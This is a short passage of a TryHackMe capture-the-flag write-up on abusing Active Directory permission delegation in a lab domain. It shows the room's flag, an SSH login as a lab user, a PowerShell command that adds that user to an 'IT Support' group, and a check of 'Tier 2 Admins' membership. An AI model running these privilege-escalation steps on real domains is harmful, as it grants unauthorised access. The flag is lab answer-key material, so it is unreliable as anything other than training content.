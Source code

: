 	`THM{Permission.Delegation.FTW!}`

	* Get the credential
	
		![task2-cred](./images/task2-cred.png)

	* Login SSH to THMWRK1
	
		```
		ssh za.tryhackme.loc\\barbara.reid@thmwrk1.za.tryhackme.loc
		```

		![task2-ssh](./images/task2-ssh.png)

	* Run `powershell` and add member as IT Support group
	
		```
		Add-ADGroupMember "IT Support" -Members "barbara.reid"
		```

		![task2-addmeber](./images/task2-addmeber.png)

	* Update policy and restart SSH Login
	
		`gpupdate /force`

		![task2-update](./images/task2-update.png)

	* Check T2 admin member
	
		```
		Get-ADGroupMember -Identity "Tier 2 Admins"
		```
